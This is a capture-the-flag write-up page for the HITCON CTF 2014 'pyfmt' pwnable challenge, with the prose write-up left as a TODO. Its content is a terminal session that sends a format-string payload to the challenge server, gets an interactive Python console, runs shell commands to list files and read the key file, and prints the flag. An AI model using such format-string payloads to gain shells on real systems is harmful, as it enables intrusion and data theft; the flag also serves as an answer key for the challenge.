 # HITCON CTF 2014: PYFMT

**Category:** Pwnable
**Points:** 152
**Description:**

> pwn 54.92.19.227 8212

**Hint:**

> [https://raw.githubusercontent.com/hitcon2014ctf/ctf/master/pyfmt_easy-9da3aa531c4f9c5e8a11dfd0459b11e2.tar.gz](pyfmt_easy-9da3aa531c4f9c5e8a11dfd0459b11e2.tar.gz)
> [https://dl.dropbox.com/s/wd6qeifygvf2lmh/pyfmt_easy-9da3aa531c4f9c5e8a11dfd0459b11e2.tar.gz](pyfmt_easy-9da3aa531c4f9c5e8a11dfd0459b11e2.tar.gz)
>
> easy ver 2
> [https://dl.dropbox.com/s/kq7klsrw7wzk3qn/pyfmt_easy-e13e6f82378751f7e909e4ae18676aa3.tar.gz](pyfmt_easy-e13e6f82378751f7e909e4ae18676aa3.tar.gz)

## Write-up

(TODO)

```bash
$ nc 54.92.19.227 8212
hello world!
who are U?
%104$1129p %104$hn
hi!                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  0x6b8254
bye!
Python 2.7.5 (default, Feb 11 2014, 07:46:25)
[GCC 4.8.2 20140120 (Red Hat 4.8.2-13)] on linux2
Type "help", "copyright", "credits" or "license" for more information.
(InteractiveConsole)
>>> import os; os.system('ls');
bin
boot
data
dev
etc
home
key_this.txt
lib
lib64
log
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
0
>>> os.system('cat key_this.txt');
HITCON{e80c1f7f81b3d1b0514d2aa24e0eeecb}
0
>>>
```

The flag is `HITCON{e80c1f7f81b3d1b0514d2aa24e0eeecb}`.

## Other write-ups

* none yet
